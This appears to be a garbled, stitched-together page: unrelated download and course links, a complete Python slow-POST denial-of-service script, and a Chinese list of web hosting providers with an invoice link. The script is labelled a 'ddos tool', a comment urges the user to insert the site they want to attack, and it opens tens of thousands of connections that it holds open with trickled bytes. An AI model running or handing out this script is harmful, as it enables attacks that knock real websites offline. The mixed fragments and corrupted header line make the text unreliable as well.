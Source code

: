 https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://edu.csdn.net/course/detail/10750

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054
